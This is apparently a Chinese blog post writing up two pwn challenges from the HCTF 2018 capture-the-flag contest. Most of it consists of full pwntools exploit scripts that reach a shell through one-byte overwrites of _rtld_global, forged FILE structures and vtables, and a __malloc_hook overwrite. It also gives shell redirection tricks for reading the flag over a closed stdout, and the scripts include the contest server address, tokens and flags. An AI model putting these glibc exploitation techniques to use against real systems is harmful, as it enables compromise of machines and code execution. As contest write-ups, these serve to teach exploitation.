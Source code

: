 ```yaml
---
layout:     post
title:      hctf2018
subtitle:    比赛
date:       2018-11-10
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
    - 比赛
---
```



> HCTFpwn题目的总结

这次比赛很可惜，自己知识的储备不足造成了挂零的情况，内心其实还挺伤心的。

加油，释放你的潜能吧，这次的题目本来按道理应该好好琢磨一阵，但是，需要学习的东西还有很多，只好把学长的搬过来了。

原网址：https://hackmd.io/8KaOXoj-SryYyOnDcXwefA?edit

## pwn

### the_end
这道题目在本地是跑不通的，大佬说的是关闭了输出，你在本地调试就会得到eof，所以应该先socat建立题目，然后再调试就可以了。程序本身的功能为5次任意地址（用户输入）的1字节写随后调用exit()函数，且提供了sleep@libc的地址。通过单步跟踪exit()函数可以发现，程序在_dl_fini()函数中会

```asm
call   QWORD PTR [rip+0x216414]        # 0x7ffff7ffdf48 <_rtld_global+3848>
```
我尝试的是把重定位的地址写在exit上，但是后来发现exit就算写了也不行，因为会进行异或加解密之类的呕。所以运行程序后b exit，接着一直si单步调试，在每一个call的地方尝试一下，最后发现dl_fini()可以并且执行。用vmmap算出他到libc的偏移地址，因此，只要将0x7ffff7ffdf48 <_rtld_global+3848>处修改为one_gadget的地址即可拿到shell，刚好需要修改5个字节。

由于程序关闭了stdout，拿到shell后，使用

```bash
exec /bin/sh 1>&0
```
执行sh并重定向标准输出流到标准输入流，即可与shell正常交互。
```python
# coding=utf-8
from pwn import *

def pwn():
    BIN_PATH = './the_end'
    DEBUG = 1
    local = 1
    if DEBUG == 1:
        if local == 1:
            p = process(BIN_PATH)
        else:
            p = process(BIN_PATH, env={'LD_PRELOAD': './libc.so.6'})
        elf = ELF(BIN_PATH)
        context.log_level = 'debug'
        context.terminal = ['tmux', 'split', '-h']
        if context.arch == 'amd64':
            if local == 1:
                libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
            else:
                libc = ELF('./libc.so.6')
        else:
            libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    else:
        p = remote('150.109.44.250', 20002)
        p.recvuntil('Input your token:')
        p.sendline('8RMQq9PuDRurd91OVhADpDDK30eqjAqz')
        elf = ELF(BIN_PATH)
        libc = ELF('./libc.so.6')
        context.log_level = 'debug'

    if DEBUG == 1:
        gdb.attach(p, gdbscript='b *0x0000555555554964')

    p.recvuntil('here is a gift ')
    recv = p.recvuntil(',', drop=True)
    libc.address = int(recv, 16) - libc.symbols['sleep']
    print hex(libc.address)
    one_gadget = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
    p.recvuntil('luck ;)\n')
    p.send(p64(libc.address + (0x7ffff7ffdf48 - 0x00007ffff7a0d000)))
    p.send(p64(libc.address + one_gadget[2])[0])
    p.send(p64(libc.address + (0x7ffff7ffdf48 - 0x00007ffff7a0d000) + 1))
    p.send(p64(libc.address + one_gadget[2])[1])
    p.send(p64(libc.address + (0x7ffff7ffdf48 - 0x00007ffff7a0d000) + 2))
    p.send(p64(libc.address + one_gadget[2])[2])
    p.send(p64(libc.address + (0x7ffff7ffdf48 - 0x00007ffff7a0d000) + 3))
    p.send(p64(libc.address + one_gadget[2])[3])
    p.send(p64(libc.address + (0x7ffff7ffdf48 - 0x00007ffff7a0d000) + 4))
    p.send(p64(libc.address + one_gadget[2])[4])
    # exec /bin/sh 1>&0
    p.interactive()
    p.close()

if __name__ == '__main__':
    pwn()

```
flag:```hctf{999402245e53bc5f0154c2a931bdc52ca3f6ee34e017f19c09a70e93c8fd4ffa}```

其次还有另一个版本

利用程序exit()的时候会调用IO_flush_all_lockp对文件流进行操作
修改io_list_all连接的stdout:

修改其io_write_ptr>io_write_base(一次机会)

修改其vtable指针的低第二位为vtable_bit(改了以后vtable指向的区域中的overflow函数高5字节和one_gadget中的高五字节相同，通过动态调试找到这块区域)

然后利用剩下的三次机会覆写vtable新指向区域的overflow函数的低三位时overflow函数被覆写为one_gadget

正好用掉五次机会，可以getshell，本地不知道为什么总是got EOF
在远程getshell后因为输出流被关闭了，通过 cat flag>&0读取flag

```python
from pwn import *
libc=ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
f=process("./the_end")
#f=remote("150.109.44.250",20002) 
#f.sendlineafter("token:","xvwf9gDfpWykWdYjxFLd0m5Oqyuf4IxC")
f.recvuntil("gift 0x")
libc_base=int(f.recv(12),16)-libc.symbols['sleep']
io_list_all=libc_base+libc.symbols['_IO_list_all']
_io_write_ptr=io_list_all+0x100+0x28
log.info("libc_base: "+hex(libc_base))
log.info("IO_list_all: "+hex(io_list_all))
log.info("stderr: "+hex(io_list_all+0x20))
log.info("_io_write_ptr:"+hex(_io_write_ptr))

vtable=io_list_all+0x100+0xd8
vtable_value=io_list_all-0x140
log.info("vtable is:"+hex(vtable_value))
overflow=vtable_value+0x18
vtable_bit=int(hex(vtable_value)[-4:-2],16)
one_gadget=libc_base+0xf02a4
log.info(hex(vtable_value))
bit_1=int(hex(one_gadget)[-2:],16)
bit_2=int(hex(one_gadget)[-4:-2],16)
bit_3=int(hex(one_gadget)[-6:-4],16)
payload=p64(overflow)+p8(bit_1)+p64(overflow+1)+p8(bit_2)+p64(overflow+2)+p8(bit_3)+p64(_io_write_ptr)+"\x11"+p64(vtable+1)+p8(vtable_bit)
f.sendlineafter(";)\n",payload)
f.interactive()
```

下一道题目先放在这，等学会了堆再回过头看。

### babyprintf_ver2

该程序通过read向bss上的全局变量输入数据，其后是stdout指针，可以进行覆盖篡改。由于知道bss的地址，首先将stdout指针的值修改为bss的地址，并在bss上布置虚假的stdout的FILE结构体，vtable地址由于程序本身带有检测，会自动填入。通过设置FILE结构体中的缓冲区指针，泄漏libc地址和修改__malloc_hook的值为one_gadget。最后通过触发printf_chk的报错使得程序调用malloc函数进而getshell。
```python
# coding=utf-8
from pwn import *

def pwn():
    BIN_PATH = './babyprintf_ver2'
    DEBUG = 0
    context.arch = 'amd64'
    if DEBUG == 1:
        p = process(BIN_PATH)
        elf = ELF(BIN_PATH)
        context.log_level = 'debug'
        context.terminal = ['tmux', 'split', '-h']
        if context.arch == 'amd64':
            libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        else:
            libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    else:
        p = remote('150.109.44.250', 20005)
        elf = ELF(BIN_PATH)
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        p.recvuntil('Input your token:')
        p.sendline('8RMQq9PuDRurd91OVhADpDDK30eqjAqz')
        context.log_level = 'debug'


    p.recvuntil('buffer location to')
    recv = p.recvuntil('\n', drop=True)
    bss_address = int(recv, 16)
    p.recvuntil('Have fun!\n')
    payload = 'a' * 16 + p64(bss_address + 0x20) + p64(0) + p64(0x00000000fbad2884) + p64(bss_address + 0xf8) * 3
    payload += p64(bss_address + 0xf8) + p64(bss_address + 0x100) + p64(bss_address + 0x11d)
    payload += p64(bss_address + 0xf8) + p64(bss_address + 0x11d) + p64(0) * 5 + p64(1) + p64(0xffffffffffffffff) + p64(0x0000000000000000)
    payload += p64(bss_address + 0x130) + p64(0xffffffffffffffff) + p64(0) * 5 + p64(0x00000000ffffffff)

    p.sendline(payload)
    p.recvuntil('permitted!\n')
    p.sendline('a' * 8)
    recv = p.recv(8)
    libc.address = u64(recv) - (0x7ffff7dcc2a0 - 0x7ffff79e4000)
    print hex(libc.address)

    payload = 'a' * 16 + p64(bss_address + 0x20) + p64(0) + p64(0x00000000fbad2884)
    payload += p64(bss_address + 0x200) * 7
    payload += p64(bss_address + 0x200) + p64(0) * 5 + p64(1) + p64(0xffffffffffffffff) + p64(0x0000000000000000)
    payload += p64(bss_address + 0x130) + p64(0xffffffffffffffff) + p64(0) * 5 + p64(0x00000000ffffffff)

    p.sendline(payload)

    malloc_hook_addr = libc.symbols['__malloc_hook']

    payload = 'a' * 16 + p64(bss_address + 0x20) + p64(0) + p64(0x00000000fbad2884)
    payload += p64(bss_address + 0x200) * 6
    payload += p64(malloc_hook_addr) + p64(malloc_hook_addr + 0x8 + 4) + p64(0) * 5 + p64(1) + p64(0xffffffffffffffff) + p64(0x0000000000000000)
    payload += p64(bss_address + 0x130) + p64(0xffffffffffffffff) + p64(0) * 5 + p64(0x00000000ffffffff)
    p.sendline(payload)

    p.sendline(p64(libc.address + 0x10a38c)) # one_gadget

    payload = 'a' * 16 + p64(bss_address + 0x20) + p64(0) + p64(0x00000000fbad2884)
    payload += p64(bss_address + 0x200) * 7
    payload += p64(bss_address + 0x200) + p64(0) * 5 + p64(1) + p64(0xffffffffffffffff) + p64(0x0000000000000000)
    payload += p64(bss_address + 0x130) + p64(0xffffffffffffffff) + p64(0) * 5 + p64(0x00000000ffffffff)
    p.sendline(payload)
    sleep(0.5)
    p.sendline('%49$p')
    
    p.interactive()
    p.close()


if __name__ == '__main__':
    pwn()

```
flag:```hctf{72717218d270a992e1415bb825366e79d254ec232022b5fc45297ef7ae5c7ea6}```

